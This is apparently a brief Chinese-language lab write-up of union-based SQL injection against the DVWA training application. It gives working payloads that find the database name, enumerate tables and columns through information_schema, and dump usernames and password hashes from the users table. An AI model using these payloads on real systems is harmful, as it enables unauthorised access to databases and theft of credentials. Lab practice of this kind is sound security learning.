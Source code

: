 ![image-20250110183754961](../../_media/image-20250110183754961.png)

爆项数

![image-20250110183838984](../../_media/image-20250110183838984.png)

只有2才是正确的，其他都会报错



```
-1' union select 1,database()#
```

爆出库名为`dvwa`



```
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'dvwa'#
```

爆出表名`guestbook,users`



```
1' union select 1 , group_concat(column_name) from information_schema.columns where table_name = 'users' #
```

爆出字段名`user_id,first_name,last_name,user,password,avatar,last_login,failed_login`



```
1' union select user,password from users#
```
